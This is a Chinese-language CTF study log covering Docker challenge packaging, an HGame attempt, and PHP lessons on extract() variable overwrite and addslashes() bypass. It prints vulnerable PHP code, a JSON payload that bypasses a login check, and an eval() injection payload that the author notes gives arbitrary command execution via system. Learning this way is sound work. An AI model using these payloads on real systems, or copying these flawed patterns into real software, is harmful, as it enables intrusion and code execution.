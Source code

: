 <a name="mkq4X"></a>
# 本周内容
1. 变量覆盖漏洞
2. 上传题库
3. HGame
<a name="YyYpO"></a>
# 成果展示
<a name="F8zvu"></a>
## 1.打包了之前的题库docker
因为频繁出现403问题，经检查全部都是不同目录的权限问题和index指定主页的问题，都解决了<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1706776732983-e8140e8f-c2b5-4fe9-b2b8-fa3ed9e344b7.png#averageHue=%238d9d7e&clientId=u62b4aaaa-b59d-4&from=paste&height=1020&id=u86e28043&originHeight=1530&originWidth=2560&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=581440&status=done&style=none&taskId=u3ce29ee0-5162-45cc-b460-1befaef48b5&title=&width=1706.6666666666667)
<a name="VcBII"></a>
## 2.HGame
学习了BP改包，之前没在实战用过，现在用上了，但是题目没做出来![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1706777212297-52d05a12-78d9-4e89-9bec-0e59dc8bb2bd.png#averageHue=%23f2f1f1&clientId=u62b4aaaa-b59d-4&from=paste&height=894&id=u97329282&originHeight=1341&originWidth=2031&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=295803&status=done&style=none&taskId=u890f0137-8db9-4e4f-a603-ba191dfce7c&title=&width=1354)<br />可以更改返回数据包的值，但是只能绕过前端验证，后端就过不去了<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1706777276821-7d863e3e-b9e2-4ab6-b973-93808783e9a6.png#averageHue=%23ededec&clientId=u62b4aaaa-b59d-4&from=paste&height=1019&id=u005b3cb7&originHeight=1528&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=202206&status=done&style=none&taskId=ub3746a9d-d53e-4c5e-ab94-6ca875bb788&title=&width=1024)<br />可见可以通过修改前端改为未满<br />同理通过读源码发现修改status可以改选择状态，<br />![e2b4693b9370da0e0ca2789721594a42.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1706777902857-abeb7d1c-6d15-4fe8-ba05-16db452fa443.png#averageHue=%23b8b560&clientId=u62b4aaaa-b59d-4&from=drop&id=u126014c1&originHeight=1528&originWidth=1536&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=86451&status=done&style=none&taskId=u840af8ed-8b31-4022-abff-33d1d508e98&title=)<br />但是只能自欺欺人，感觉显示原型链污染，或者是json的覆盖，但是都没试出来，就放弃了<br />在看这个题的时候本来想找json的数据覆盖，但是找到了我之前没学过的php数据覆盖
<a name="YSbJm"></a>
## 3.extract()变量覆盖
extract()为变量注册函数，将数组中的数据以键名为变量名，键值为变量值的形式注册变量。
```php
 1 <?php
 2 @error_reporting(E_ALL^E_NOTICE);
 3 require('config.php');
 4 
 5 if($_GET['show_source'] === '1') {
 6     highlight_file(__FILE__);
 7     exit;
 8 }
 9 
10 $user = null;
11 
12 // connect to database
13 
14 if(!empty($_POST['data'])) {
15     try {
16         $data = json_decode($_POST['data'], true);
17     } catch (Exception $e) {
18         $data = [];
19     }
20     extract($data);
21     if($users[$username] && strcmp($users[$username], $password) == 0) {
22         $user = $username;
23     }
24 }
```
```php
20     extract($data);
21     if($users[$username] && strcmp($users[$username], $password) == 0) {
22         $user = $username;
23     }
```
当时我理解这个理解了半天，以为是user数组的username键必须是0，同时users[username]等于password<br />后来知道是&&优先<br />需要users[username]已设置，并且users[username] == password<br />才会执行$user = $username<br />strcmp为两值相等时返回0（忘光了）
```php
<?php if($user == 'admin') printf("<code>%s</code>", htmlentities($flag)); ?>
```
需要user == admin才能得到flag<br />所以就需要

1. username = admin
2. 随便设置password替换后面的password检验
3. 传入users数组，设置键名为admin,键值为123
4. data={"username":"admin","password":"123","users":{"admin":"123"}}

就可以绕过<br />同时还有parse_str(),准备后面遇到了再学算了
<a name="VywcX"></a>
## 4.addslashes()绕过
该函数会转义 \ " ' 和 NULL<br />例：${a}123在php中，会把a当作变量解析<br />参考：[https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php#mitigation](https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php#mitigation)<br />例题：<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1706879784435-c9bff859-0e4f-49bb-8d7b-8737eaa70279.png#averageHue=%23306984&clientId=uf469fd5a-0ac0-4&from=paste&height=1020&id=u9474734b&originHeight=1530&originWidth=2560&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1361659&status=done&style=none&taskId=ub7a1a6df-0723-42e6-823b-654b6843553&title=&width=1706.6666666666667)
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);
        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```
可以看到有eval危险函数，这里普通的字符串拼接就不好使了，因为有addslashes函数添加转义字符<br />直接用网站里的payload
```php
?format=var_dump(${eval($_GET[1])}=123)&1=phpinfo();
```
把后面的phpinfo改成system就可以任意命令执行了
<a name="r20Gr"></a>
# 下周任务
下周又换了一个地方住，刚刚脱离了这边两个小孩的骚扰，估计到了那边又要帮那边的亲戚带娃（娃娃真的好讨厌啊），被骚扰的成天在我边上闹腾，下周准备n1CTF，还有出题，看看最近比赛的WP，这周除了带娃，参加婚礼，看奶奶，和亲戚打牌就全打比赛了，比赛只打出来几道，下周再接再励喽
